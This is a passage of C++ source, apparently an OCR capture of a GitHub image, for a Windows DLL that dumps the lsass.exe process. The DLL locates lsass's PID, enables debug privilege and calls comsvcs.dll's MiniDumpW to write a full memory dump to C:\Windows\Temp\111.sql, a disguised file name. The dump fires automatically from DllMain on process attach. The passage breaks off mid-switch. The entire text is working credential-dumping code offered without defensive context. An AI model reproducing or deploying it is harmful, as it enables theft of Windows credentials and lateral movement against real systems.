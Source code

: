 ```cpp
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";
    //遍历lsass.exe 的PID
    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    return lsassPID;
}

BOOL CheckFileExists(PWCHAR file) {
    WIN32_FIND_DATA FindFileData;
    HANDLE hFind = FindFirstFileEx(file, FindExInfoStandard, &FindFileData,FindExSearchNameMatch, NULL, 0);
    if (hFind == INVALID_HANDLE_VALUE)
    {
        return FALSE;
    }
    return TRUE;
}
int Dump() {
    WCHAR commandLine[MAX_PATH];
    WCHAR DumpFile[] = L"C:\\Windows\\Temp\\111.sql";
    _MiniDumpW MiniDumpW;
    DWORD lsassPID = 0;

    if (!CheckPrivilege()) {
        return -1;
    }

    if (!EnableDebugPrivilege()) {
        return -1;
    }
   

    if (CheckFileExists(DumpFile)) {
        return 0;
    }

    lsassPID = GetLsassPID();
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    _itow_s(lsassPID, commandLine, 10);
    lstrcatW(commandLine, L" ");
    lstrcatW(commandLine, DumpFile);
    lstrcatW(commandLine, L" full");
    MiniDumpW(0, 0, commandLine);
    return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
```